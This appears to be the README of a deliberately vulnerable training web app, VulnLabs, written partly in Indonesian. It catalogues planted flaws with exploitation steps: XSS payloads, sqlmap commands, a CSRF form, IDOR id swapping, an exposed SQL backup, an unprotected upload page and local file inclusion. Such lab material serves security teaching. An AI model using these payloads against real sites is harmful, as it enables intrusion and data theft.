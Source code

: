 # VulnLabs

### XSS
- Form search
- Contoh payload: 
```
<script>alert(1)</script>
<body onload=confirm(1)>
<h1 onmouseover=confirm(1)>asdf</h1>
<img src=3 onerror=confirm(1)>
```

### SQL Injection
- Halaman detail item: /item-details.php?id=  
`sqlmap -u "https://host.com/item-details.php?id=1*" --batch --current-db`
- Halaman pencarian  
`sqlmap -u "http://host.com/explore.php?keyword=asd*" --current-db --batch --level 2`

### CSRF
- Edit barang: `/admin/cek-edit-data.php`
- Post data: `nama_barang` , `kuantitas` & `created_by` 
- Contoh:
```
<form action="http://host.com/admin/cek-edit-data.php" method="post" class="user">
    <input type="hidden" name="id" value="1" />
    <input type="text" name="nama_barang" value="Hiasan Dinding Kontemporer Baru" />
    <input type="text" name="kuantitas" value="12" />
    <input type="text" name="created_by" value="administrator" />
    <button type="submit">Edit Data</button>
</form>
```

### IDOR
- Halaman profile: `/admin/profile.php`
- Ganti `id` yang ada di `<input type="hidden" name="id" value="2">` menjadi `id` milik _admin_
- `<input type="hidden" name="id" value="1">`

### Misconfiguration
- Backup file: /admin/backup/file.sql
- Udah dicek via *DirSearch*

### Broken Authentication
- Halaman upload di dalam dir `/admin` bisa diakses: `/admin/upload.php`

### File Upload
- Menu "Upload Database"
- Upload db file. Note: flow-nya hanya simpan file, bukan sekalian import file yg diupload
- Hanya filter ext dari JS

### Local File Inclusion
- Halaman login `/admin/?get=login.php`
- `http://host.com/admin/?get=login.php`
